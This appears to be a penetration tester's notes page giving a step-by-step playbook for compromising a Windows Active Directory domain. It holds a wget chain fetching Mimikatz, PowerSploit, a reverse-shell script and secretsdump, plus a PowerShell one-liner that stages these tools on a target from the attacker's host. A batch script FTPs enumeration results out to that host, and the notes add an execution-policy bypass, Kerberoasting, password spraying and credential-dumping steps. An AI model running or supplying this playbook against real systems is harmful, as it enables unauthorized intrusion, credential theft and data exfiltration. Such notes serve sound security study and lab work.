 Resources:
Pass the Hash
Overpass the Hash
Pass the Ticket
Kerberoasting
Password Spray

CHECK OUT:

```
https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/  
```

Cryptography mimikatz module:  
```
https://hackmag.com/security/lateral-movement/ 
```

```
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/
```

# Attack Privilege Requirements

- [ ]  Kerbrute Enumeration — No domain access required
- [ ]   Pass the Ticket — Access as a user to the domain required
- [ ]   Kerberoasting — Access as any user required
- [ ]   AS-REP Roasting — Access as any user required
- [ ]   Golden Ticket — Full domain compromise (Domain Admin) required
- [ ]   Silver Ticket — Service hash required
- [ ]   Skeleton Key — Full domain compromise (Domain Admin) required

```bash - kali
wget https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1 && wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 && wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1 && wget https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1 && wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1 && wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1 && wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1 && wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py && wget https://github.com/davehardy20/sysinternals/blob/master/PsExec64.exe?raw=true
```

### Enable RDP
Try enabling RDP with share access 
[[Port 3389 - RDP ~#Enabling RDP]]
If successful, skip to [[#Domain Enumeration]]


#### AutoUpload.bat - ==REMEMBER TO CHANGE $KALI TO IP!==

```bash - kali
echo $KALI
```

```bash - kali
mousepad AutoUpload.bat
```

```powershell - windows
@echo off

echo anonymous> upload.txt
echo anonymous>> upload.txt
echo binary>>upload.txt

echo put adPEAS.txt >> upload.txt
echo quit >> upload.txt

ftp -s:upload.txt $KALI

del upload.txt
```

#### Transfer to target - PowerShell - ==REMEMBER TO CHANGE $KALI TO IP!==
```powershell - windows
cd $env:TEMP; mkdir Tools; cd Tools; Invoke-WebRequest -Uri '$KALI/PowerView.ps1' -OutFile PowerView.ps1; Invoke-WebRequest -Uri '$KALI/SharpHound.ps1' -OutFile SharpHound.ps1; Invoke-WebRequest -Uri '$KALI/GetUserSPNs.ps1' -OutFile GetUserSPNs.ps1; Invoke-WebRequest -Uri '$KALI/Invoke-Mimikatz.ps1' -OutFile Invoke-Mimikatz.ps1; Invoke-WebRequest -Uri '$KALI/Invoke-Kerberoast.ps1' -OutFile Invoke-Kerberoast.ps1; Invoke-WebRequest -Uri '$KALI/Invoke-PowerShellTcpOneLine.ps1' -OutFile Invoke-PowerShellTcpOneLine.ps1; Invoke-WebRequest -Uri '$KALI/PsExec64.exe' -OutFile PsExec64.exe; Invoke-WebRequest -Uri '$KALI/AutoUpload.bat' -OutFile AutoUpload.bat; Invoke-WebRequest -Uri '$KALI/adPEAS.ps1' -OutFile adPEAS.ps1
```

#### Bypass execution policy
```command prompt - windows
powershell -ep bypass
```

#### Start FTP server and upload results

[[Python#FTP Server]]

```powershell - windows
cmd /c "AutoUpload.bat"
```


Export Domain variables from nmapSVC : RE-DO EVERYTIME YOU CHANGE HOSTS!
```bash - kali
export TARGET_NAME=$(cat nmapSVC | grep Target_Name | cut -d : -f 2) && export NETBIOS_DOMAIN_NAME=$(cat nmapSVC | grep NetBIOS_Domain_Name | cut -d : -f 2) && export NETBIOS_COMPUTER_NAME=$(cat nmapSVC | grep NetBIOS_Computer_Name | cut -d : -f 2) && export DNS_DOMAIN_NAME=$(cat nmapSVC | grep DNS_Domain_Name | cut -d : -f 2) && export DNS_COMPUTER_NAME=$(cat nmapSVC | grep DNS_Computer_Name | cut -d : -f 2) && export DNS_TREE_NAME=$(cat nmapSVC | grep DNS_Tree_Name | cut -d : -f 2)
```

---

#### Domain Enumeration
1. Identify Domain Controller!
Look for ports 389 and 636 being open.
From nmap scan, we should find Domain: details on these ports.

From nmap scans:
|   Target_Name: xxxxx
|   NetBIOS_Domain_Name: xxxxx
|   NetBIOS_Computer_Name: xxxxx
|   DNS_Domain_Name: xxxxx
|   DNS_Computer_Name: xxxxx
|   DNS_Tree_Name: xxxxx

[[1._Enumeration#5 Domain Enumeration winapsearch]]
[[1._Enumeration#6 Domain Enumeration LDAPDomianDump - try with without creds]]

Found users? 
```bash - kali
git clone https://github.com/captain-noob/username-wordlist-generator && cd username-list-generator
```
make list of users into user.txt file

```bash - kali
python3 userlistcreator.py
```

2. Compromise a host on the domain, get system.
[[2._PsExec.exe (admin to system!)]]

Run adPEAS  https://github.com/61106960/adPEAS
```powershell - target
. .\adPEAS.ps1; Invoke-adPEAS  > adPEAS.txt
```

Try to find users and groups with PowerView.ps1
[[6._PowerShell AD Enumeration]]

Do you have any users / passwords / hashes at this point?
- **YES!  Try the following:**
[[1._Enumeration#5 Domain Enumeration winapsearch]]
[[1._Enumeration#6 Domain Enumeration LDAPDomianDump - try with without creds]]
Password Spraying
[[2._CrackMapExec]]
- [ ] SMB
- [ ] WINRM
- [ ] LDAP

- **NO! Try the following:**
[[__.Mimikatz.ps1]]
[[__.Mimikatz.exe]]

3. Look for SPN's
```powershell - target
.\GetUserSPNs.ps1
```
[[1._Service Account Attacks]]

Now that we have password, try:
Password Spraying
[[2._CrackMapExec]]
- [ ] SMB
- [ ] WINRM
- [ ] LDAP

